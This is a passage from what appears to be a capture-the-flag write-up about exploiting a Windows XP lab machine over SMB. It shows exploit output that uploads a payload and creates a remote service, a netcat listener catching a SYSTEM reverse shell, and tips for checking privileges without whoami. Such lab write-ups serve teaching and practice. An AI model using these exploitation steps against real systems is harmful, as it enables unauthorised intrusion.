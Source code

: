     userAndGroupCount: 0x3
    userAndGroupsAddr: 0xe1b1dfb0
    overwriting token UserAndGroups
    Sending file N0KFUJ.exe...
    Opening SVCManager on 10.10.10.4.....
    Creating service TMkY.....
    Starting service TMkY.....
    The NETBIOS connection with the remote host timed out.
    Removing service TMkY.....
    ServiceExec Error on: 10.10.10.4
    nca_s_proto_error
    Done



And I get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.4.
    Ncat: Connection from 10.10.10.4:1029.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>



## Beyond Root - Whoami

XP doesn't have a `whoami` binary or command! So while I suspected that
I was system with both of these exploits, how would I know:



    C:\WINDOWS\system32>whoami
    whoami
    'whoami' is not recognized as an internal or external command,
    operable program or batch file.



For most users, I can use `echo` and the `%username%` environment
variable:



    C:\WINDOWS\system32>echo %username%
    %username%



The fact that that environment variable doesn't expand is a good sign
that I'm system. If I want to go further, I can use `whoami.exe`, which
is already on kali by default:

